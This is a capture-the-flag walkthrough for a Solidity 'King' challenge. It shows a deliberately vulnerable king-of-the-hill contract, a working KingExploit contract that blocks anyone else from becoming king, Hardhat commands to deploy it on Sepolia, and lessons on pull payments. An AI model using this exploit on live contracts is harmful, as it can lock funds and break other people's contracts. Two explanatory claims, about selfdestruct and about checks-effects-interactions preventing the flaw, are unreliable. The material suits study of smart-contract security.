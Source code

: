 # Level 9: King Challenge

## Challenge Description

This level introduces the concept of Denial of Service (DoS) attacks in Ethereum smart contracts. The goal is to break the King contract and prevent anyone else from becoming the king.

## Contract Location

The challenge contract is located at:
```
/contracts/level-09-king/King.sol
```

## Understanding the Challenge

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

The King contract implements a simple "king of the hill" game:
- The contract has a king address and a prize amount
- Anyone can become the new king by sending more ETH than the current prize
- When a new king takes over, the old king receives the ETH sent by the new king
- The prize is updated to the new amount sent

### The Vulnerability

The vulnerability is in the `receive()` function:

```solidity
payable(king).transfer(msg.value);
```

This line attempts to transfer ETH to the previous king. If the king is a contract that doesn't accept ETH (by not implementing a receive or fallback function, or by intentionally reverting in these functions), then this transfer will fail, which will prevent anyone from becoming the new king.

## Winning Strategy

To win this challenge, you need to:

1. Create a contract that can become the king
2. Ensure that the contract actively prevents receiving ETH transfers
3. Make that contract the king

## Hint for Thinking

Ask yourself:
* What happens if a contract can't receive ETH?
* How can a transfer operation be forced to fail?
* How does `transfer()` differ from other ETH sending methods?

## Disclaimer

If you want to solve this challenge on your own, stop reading here and try to implement a solution based on the hints above. The complete solution is provided below.

---

## Solution

The solution is to create a malicious contract that becomes king but actively prevents receiving ETH, causing the King contract to fail when trying to set a new king.

### Understanding the Attack

The attack works because:

1. The `King` contract uses `transfer()` to send ETH to the current king when a new king claims the throne
2. The `transfer()` method has a gas limit of 2300 gas and will fail if the recipient is a contract that reverts in its receive function
3. If this transfer fails, the entire transaction reverts, preventing anyone else from becoming king

### Exploit Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract KingExploit {
    address public kingContractAddress;
    address public owner;
    
    constructor(address _kingContractAddress) {
        kingContractAddress = _kingContractAddress;
        owner = msg.sender;
    }
    
    function claimThrone() public payable {
        // Send ETH to the King contract to become the new king
        (bool success, ) = payable(kingContractAddress).call{value: msg.value}("");
        require(success, "Failed to claim throne");
    }
    
    // Implementing receive function that reverts
    receive() external payable {
        revert("Cannot receive ETH");
    }
    
    // Implementing fallback function that also reverts
    fallback() external payable {
        revert("Cannot receive ETH");
    }
}
```

**Note**: Simply not implementing a receive or fallback function would NOT be sufficient. ETH can still be forcibly sent to contracts through a `selfdestruct` operation. By implementing functions that explicitly revert, we ensure the King contract's transfer will always fail.

## Step-by-Step Solution Guide

### 1. Deploy the King Contract

If you're testing locally, deploy the King contract first:

```shell
npx hardhat deploy --tags king
```

### 2. Deploy the KingExploit Contract

Deploy the KingExploit contract targeting the King contract:

```shell
npx hardhat deploy --tags king-solution
```

Or with a specific King contract address:

```shell
TARGET_ADDRESS=0xYourKingAddress npx hardhat deploy --tags king-solution --network sepolia
```

### 3. Execute the Exploit

Run the provided script to claim the throne using the KingExploit contract:

```shell
EXPLOIT_ADDRESS=0xYourExploitAddress KING_ADDRESS=0xKingAddress npx hardhat run scripts/level-09-king/claim-throne.ts --network sepolia
```

Parameters:
- `EXPLOIT_ADDRESS`: Required - the address of your deployed KingExploit contract
- `KING_ADDRESS`: Optional - defaults to a predefined address if not provided

### 4. Verify Your Success

After executing the solution, verify that:
1. The KingExploit contract is the new king
2. Any attempt to become the new king will fail due to the transaction reverting

## Lessons Learned

This challenge teaches important lessons about safe external calls in smart contracts:

1. **External Call Safety**: When making external calls that can fail, consider using lower-level `call()` instead of `transfer()` or `send()` so you can handle failures more gracefully.

2. **Design for Failures**: Smart contracts should be designed to handle cases where external calls fail, especially when the contract's functioning depends on these calls.

3. **DoS Attacks**: This is an example of a Denial of Service (DoS) attack. A malicious contract can prevent legitimate functions from executing by exploiting the requirement that all contract calls must succeed.

4. **Checks-Effects-Interactions Pattern**: Following this pattern could have prevented the vulnerability. The contract should update its state (setting the new king) before making external calls (sending ETH to the old king).

5. **Pull Over Push**: Implement a pull-payment system where users withdraw funds themselves instead of pushing payments to them.

